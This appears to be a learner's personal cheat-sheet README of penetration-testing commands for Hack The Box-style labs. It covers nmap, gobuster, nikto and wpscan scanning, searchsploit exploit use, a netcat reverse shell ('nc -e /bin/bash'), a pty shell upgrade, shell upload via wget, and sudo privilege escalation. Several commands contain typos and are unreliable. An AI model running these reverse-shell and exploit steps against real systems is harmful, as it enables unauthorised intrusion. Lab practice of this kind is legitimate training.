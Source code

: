 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host ip and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 10000 host 
nmap -p- -sV port scanning ant its version
nmap -sV -sC -v From your scans, what version is FTP running on the target?
nmap -sS -p- -Pn --min-rate host ip for            to find all open ports
nmap -sC -sV -p htb
 nmap --script vuln -A 10.129.123.49 for finding all vulnerablitie

for finding specific ports 
1) nmap -p- --min-rate 10000 -oA nmap/allports -v 10.129.95.166
2)nmap -sC -sV   -p 22,80 10.129.95.166 






when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh
gobuster  dir -u  http://10.129.123.49 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log -t 50


nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHTTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

xkcd for explain vuln with nice comic



wpscan --url http://10.129.96.68 -e u,p --plugins-detection aggressive 


wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  




ngrok, plink,bitvise,chisel for connectintions 





dnszone using:
dig -t NS(name server)
dig axfr @nameserver nameserver

nslookup for finding nameserver

check the command injection

 python upgrade shell       python -c 'import pty; pty.spawn("/bin/bash")'
 
 ctrl u (for inspect source)
 
 ubuntu apache  2.2.22 precision for finding last ubuntu update
 and next gonna here  from mozilla: ubuntu release precise
 
 
cURL
cURL is a command-line tool to transfer data to or from a server, using any of the supported protocols (HTTP, FTP, IMAP, POP3, SCP, SFTP, SMTP, TFTP, TELNET, LDAP, or FILE). curl is powered by Libcurl. This tool is preferred for automation since it is designed to work without user interaction. curl can transfer multiple files at once. 

curl -X POST -F `file=index.php(it s changgable and it gives us a databse)(for configuration root    /var/www/phpmy/config.php.inc)` http://192.168.1.1(IP adres of ur page)/test.php(it s subdomain for this box)
